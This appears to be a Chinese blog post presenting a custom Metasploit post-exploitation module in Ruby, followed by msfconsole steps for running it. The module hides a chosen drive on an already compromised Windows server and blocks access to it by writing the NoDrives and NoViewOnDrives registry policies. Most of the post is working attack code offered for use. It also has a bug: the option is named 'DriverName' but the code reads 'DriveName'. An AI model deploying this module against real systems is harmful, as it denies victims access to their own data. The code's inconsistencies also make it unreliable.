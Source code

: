 ```yaml
---
layout: post
category: curleyg-code-hack
title: Metasploit自定义让磁盘失效的后渗透模块
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: Metasploit自定义让磁盘失效的后渗透模块
lock: need
---
```


# Metasploit自定义让磁盘失效的后渗透模块

一个可以禁用Windows 操作系统上的指定硬盘的程序，这里我们将脚本命名为：disable_drives_by_binghe.rb。

具体内容如下：

```
##
# Author 冰河
# Date 2019-01-12
# Description 禁用Windows操作系统上的指定硬盘的程序
##

require 'msf/core'
require 'rex'
require 'msf/core/post/windows/registry'

class Metasploit3 < Msf::Post
  include Msf::Post::Windows::Registry
  
  def initialize
    super(
        'Name'        => 'Driver Disabler',
        'Description' => 'This Modules Hides and Restrict Access to a Drive',
        'Author'      => 'binghe',
        'License'     => MSF_LICENSE
    )
    register_options(
    [
      OptString.new('DriverName', [true, 'Please SET the Drive Letter'])
    ], self.class)
    end
   
   def run
    drive_int = drive_string(datastore['DriveName'])
    key1 = "HKLM\\SoftWare\\Microsoft\\WIndows\\CurrentVersion\\Policies\\Explorer"
    exists = meterpreter_registry_key_exist?(key1)
    if not exists
      print_good("Hidden Drive") 
      meterpreter_registry_setvaldata(key1, 'NoDrives', drive_int.to_s, 'REG_DWORD', REGISTRY_VIEW_NATIVE)
      print_good("Restricting Access to the Drive")
      meterpreter_registry_setvaldata(key1, 'NoViewOnDrives', drive_int.to_s, 'REG_DWORD',REGISTRY_VIEW_NATIVE)
    else
      print_good("Key Exist, Skipping and Creating Values")
      print_good("Hiding Drive")
      meterpreter_registry_setvaldata(key1, 'NoDrives', drive_int.to_s, 'REG_DWORD', REGISTRY_VIEW_NATIVE)
      print_good("Restricting Access to the Drive")
      meterpreter_registry_setvaldata(key1, 'NoViewOnDrives', drive_int.to_s, 'REG_DWORD',REGISTRY_VIEW_NATIVE)
     end
     print_good("Disabled #{datastore['DriveName']} Drive") 
    end
    
   def drive_string(drive)
    case drive
      when 'A'
        return 1
      when 'B'
        return 2
      when 'C'
        return 4
      when 'D'
        return 8
      when 'E'
        return 16
       end
    end 
end
```

**注意：使用此脚本的前提是我们已经经过一系列的渗透拿到了目标Windows服务器的System权限。**

接下来我们将脚本传到Kali的/usr/share/metasploit-framework/modules/post/windows/manage目录下，此时，我们在Kali下操作：

```
msfconsole
msf auxiliary(scanner/ssh/ssh_brute_by_binghe) > use post/windows/manage/disable_drives_by_binghe 
msf post(windows/manage/disable_drives_by_binghe) > show options

Module options (post/windows/manage/disable_drives_by_binghe):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   DriverName                   yes       Please SET the Drive Letter
   SESSION                      yes       The session to run this module on.

msf post(windows/manage/disable_drives_by_binghe) > set DriverName D
DriverName => D
msf post(windows/manage/disable_drives_by_binghe) > run
```

此时，查看目标服务器的D盘确实被成功禁用了。


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)

